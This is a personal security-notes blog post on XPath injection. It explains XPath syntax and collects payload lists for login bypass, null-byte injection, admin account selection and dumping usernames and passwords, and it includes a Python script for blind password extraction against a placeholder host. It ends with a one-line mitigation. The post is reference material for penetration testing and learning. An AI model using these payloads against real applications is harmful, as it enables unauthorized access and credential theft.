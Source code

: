 ```yaml
---
title: 'Notes | Web | XPATH injection'
author: Stillwolfing
date: 2024-01-30
categories: ['AxelInsa.github.io', '_posts', 'Notes']
tags: ['AxelInsa.github.io', '_posts', 'Notes']
permalink: /Notes/Web/xpath
---
```


## Introduction

XPath (XML Path Language) injections pose a significant threat to web applications that use XML databases. Similar to SQL injection attacks, XPath injections involve manipulating XPath queries to extract sensitive information from XML databases. In this article, we will delve into the structure of XPath, explore XPath injections, and discuss mitigation strategies to secure applications against such attacks.

## XPath Format

To comprehend XPath injections, it's crucial to understand the XML standard and XPath language. XML (eXtensible Markup Language) is a markup language developed by the World Wide Web Consortium for describing data in the form of XML documents. XPath, an XML Path Language, allows selecting information within an XML document by referencing data such as text, elements, and attributes.

Let's examine a simple XML document to illustrate its structure:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<data>
<user>
    <name>pepe</name>
    <password>peponcio</password>
    <account>admin</account>
</user>
<user>
    <name>mark</name>
    <password>m12345</password>
    <account>regular</account>
</user>
<user>
    <name>fino</name>
    <password>fino2</password>
    <account>regular</account>
</user>
</data>
```

In this example, the XML document describes users with elements like name, password, account type.

### Queries type

```text
All names - [pepe, mark, fino]
name
//name
//name/node()
//name/child::node()
user/name
user//name
/user/name
//user/name

All values - [pepe, peponcio, admin, mark, ...]
//user/node()
//user/child::node()


Positions
//user[position()=1]/name #pepe
//user[last()-1]/name #mark
//user[position()=1]/child::node()[position()=2] #peponcio (password)

Functions
count(//user/node()) #3*3 = 9 (count all values)
string-length(//user[position()=1]/child::node()[position()=1]) #Length of "pepe" = 4
substrig(//user[position()=2/child::node()[position()=1],2,1) #Substring of mark: pos=2,length=1 --> "a"
```

## Authentication

Exemple of query for authentication:

```text
string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())
```

payloads to put in both fields to get the first account:

```text
' or '1'='1
" or "1"="1
' or ''='
" or ""="
```

This will give the following query, equivalent to 1=1 and 1=1:

```
string(//user[name/text()='' or '1'='1' and password/text()='' or '1'='1']/account/text())
```

To select an particular account, select the account using the username and use one of the previous values in the password field.

## Abusing null injection

In some cases, it is possible to bypass the password verification using a null byte.

```
Username: ' or 1]%00
```

It will form the following query:

```
//user[name/text()='' or 1
```

## Double OR in Username or in password

It enables to have a valid query with only one vulnerable field.

Payloads:

### Bypass with first match

```text

(This requests are also valid without spaces)
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
```

So you will get this type of query that will match true:
```
string(//user[name/text()='' or true() or '' and password/text()='']/account/text())
```

### Select account

```text
'or contains(name,'adm') or' #Select first account having "adm" in the name
'or contains(.,'adm') or' #Select first account having "adm" in the current value
'or position()=2 or' #Select 2º account
```

You will get this type of query:
```
// This will probably connect you as "admin" if the account exists
string(//user[name/text()=''or contains(name,'adm') or'' and password/text()='']/account/text())
```

### Select account (name known)

```
admin' or '
admin' or '1'='2
```

Resulting query:
```
string(//user[name/text()='admin' or '1'='2' and password/text()='']/account/text())

This is equivalent to: name='admin' or (false and password='') <=> name='admin' or false <=> name='admin'

This will connect you as admin (if the account exists) whatever the password is.
```

## String extraction

If the output contains strings and the user can manipulate the values to search. Example: a search bar to search for username.

```text
/user/username[contains(., '+VALUE+')]
```

```text
') or 1=1 or (' #Get all names
') or 1=1] | //user/password[('')=(' #Get all names and passwords
') or 2=1] | //user/node()[('')=(' #Get all values
')] | //./node()[('')=(' #Get all values
')] | //node()[('')=(' #Get all values
') or 1=1] | //user/password[('')=(' #Get all names and passwords
')] | //password%00 #All names and passwords (abusing null injection)
')] | //user/*[1] | a[(' #The ID of all users
')] | //user/*[2] | a[(' #The name of all users
')] | //user/*[3] | a[(' #The password of all users
')] | //user/*[4] | a[(' #The account of all users
```

## Blind Explotation

To find the length of a value:
```
// bool value
' and string-length(password)=5

// You can also use dichotomy to go faster
' and string-length(password)<5
```

To find the value of a character:
```
'and substring(password,<position_of_the_character>,1)='a'

// Test if the first character of the password is 'a'
'and substring(password,1,1)='a'
```

### Example

```
import requests, string 

flag = ""
l = 0
alphabet = string.ascii_letters + string.digits + "{}_()"
for i in range(30): 
    r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i)) 
    if ("TRUE_COND" in r.text): 
        l = i 
        break 
print("[+] Password length: " + str(l)) 
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i)) 
    for al in alphabet: 
        r = requests.get("http://example.com?action=user&userid=2 and substring(password,"+str(i)+",1)="+al)
        if ("TRUE_COND" in r.text): 
            flag += al
            print("[+] Flag: " + flag) 
            break
```

## Tool

[xcat](https://xcat.readthedocs.io/en/latest/)

## Mitigations

Defending against XPath Injection is essentially similar to defending against SQL injection. The
application must sanitize user input. Specifically, the single and double quote characters should be
disallowed. 

